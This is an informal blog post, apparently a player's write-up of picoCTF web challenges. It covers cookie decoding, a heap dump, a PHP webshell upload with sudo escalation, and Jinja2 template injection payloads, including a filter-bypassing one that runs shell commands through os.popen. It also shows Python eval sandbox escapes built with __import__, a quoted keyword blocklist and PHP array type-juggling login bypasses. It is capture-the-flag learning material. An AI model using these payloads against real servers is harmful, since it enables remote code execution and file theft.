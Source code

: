 +++
date = '2025-04-01T02:16:51Z'
draft = false
title = 'picoCTF / Web'

+++
# Cookie Monster Secret Recipe
http://verbal-sleep.picoctf.net:56241/
1. Logging on give hit "Check cookies"
2. value `secrent_recipe: cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzZDMkZCN0YzfQ%3D%3D`
3. As evident from the %3d%3d, most likely base64 encoded.
4. Flag: picoCTF{c00k1e_m0nster_l0ves_c00kies_6C2FB7F3}
# head-dump
- Need to find enpoint  with flag
- Documentation about API
- "browser_webshell_solvable"
1. So we have a home page with 4 blog posts of
	1. cyber
	2. nodejs/swagger ui / API documentation
	3. Logging
	4. and hacking
2. None of the \#links work, except for `#API Docuemntation` 
	1. get a Swagger docuemtnation page
		1. heapdump gets memory
		2. You can open it in text file
		3. CTRL+F "picoCTF{"
		4. picoCTF{Pat!3nt_15_Th3_K3y_ad7ea5ae
# n0s4n1ty 1
- profile picture upload
- need to locate file upload area, and inside /root directory.
1. uploading file change image
2. "Update profile" button gives "File x.jpg has be uploaded Path: uplaods.jpg"
	1. uploaded [webshell.php](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php), find we are in /var/www/html/uploads
	2. ls /root gives us `Permission Denied`
		1. Check sudo?
		2. We have sudo!
	3. sudo ls /root finds /root/flag,txt
	4. sudo cat /root/flag.txt
	5. picoCTF{wh47_c4n_u_d0_wPHP_d698d800}
# SSTI1
- announcer
- Whatever submitted in input box is then redirected to a page with jsut that text
- ca use `<script> alert(5)</script>`
- what can we do then...
- post / with content redirects to /announce

1. Try PHP innject
	1.  `<?php echo "test" ?>`
	2. It gets automatically commented out -> `<?php` tunrs into `<!---?php`
2. In the HTML, we can see a POST request get sent to /
3. Lets open burpsuite
4. Be stupid and lookup what SSTI means
	1. Server Side Template injection
	2. Using {{}} we can evaluate the command
	3. {{7\*7}} gives up 49 instead of the output!
5. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
	1. We find it is a Jinja2 injection
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

# WebSockFish
stockfish chessbot!
1. In the script, we can see how the game is ran and how out fish chat messages are sent
2. The chess/chessboard/stockfish .js files are pretty standard open source stuff
3. We look at the websock, which gives uses:
	1. sendMessage() to send data to websocket
	2. and appropiate updateMEssage() our fish dialog
4. On the bottom, we see that the scripts use this on the stockfish.onmessage() event
	1. sf.postMEssage() evaluates the chess engine to get a response
	2. then, depending on the response, we either perform the best move OR send a message to the websocket
		1. The two messages are "mate x" and "eval x"
		2. "mate x" looks like how soon the fish kills you
		3. "eval x" determines the position... i.e "i'm winning" or "i'm losing" or "its even"
5. If you sendMessage("eval -9999") we get our flag"

# 3v@l
Under the hood, there is an eval function from python
figure out how to execute bad code!
1. tried import os -> there are banlist words
2. even "os" as a string doesn't work
3. I'm stupid and its in an html comment
```
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```
we can instead use the `__import__()` function to get the libraries we need. We can sue them using strings. Normally, you'd need to put `import os`, where os is a keyterm. not we can do `__import__("o" + "s")`, then add `.listdir()` to see our directory

we also have access to t he `open().read()` functions. We can read the flask file with:
`open('app' + '.' + "py").read()`

Note: we can't put t"." with another letter as it will yell at us

__import__("o" + "s").listdir("/flag.txt")
__import__("o" + "s").listdir("~")
__import__("o" + "s").listdir(__import__("o" + "s").sep)
__import__("o" + "s").listdir(__import__("o" + "s").path.abspath("."+ ".") + "flag" + "." + "txt")
open(__import__("o" + "s").path.abspath("."+ ".") + "flag" + "." + "txt").read()

# SSTI2
Same set up
- some tests
- `{{ xxxx }}` still works
- function give server error
- {{ 1.1 }} shows 11, which means . is removed.
- () still work, but not within {} -> seems to be stripped?
	- except () together works. only ( breaks
- __ are stripped
- {{ config }} gets outputs
- periodds are removed, so are []
- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html#common-bypasses
```
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag${IFS}')|attr('read')()%}{%print(a)%}{%endwith%}
```

# apriti sesame street
https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4
- hint says backup files from emacs
- emacs saves edited files as `filename.txt~`
	- we can tehn find the logic of the hpp in `impossibleLogin.php`
- refer to link above
- payload is `username[]=a&pwd[]=b` in body
	- \[\] turns the value into an array, which sha1 tries to cast into a string and then returns 0.
Intersting notes:
- php == is vulenrable to a lot of things
- md5 collisions when doing (md5) == (md5) sisnces strings starting with 0e are treated as 0.
- you can also type juggle strcmp
https://rst.hashnode.dev/bypassing-php-strcmp
# Pachinko
- I actually have 0 clue what i did but i connected 8-4-7.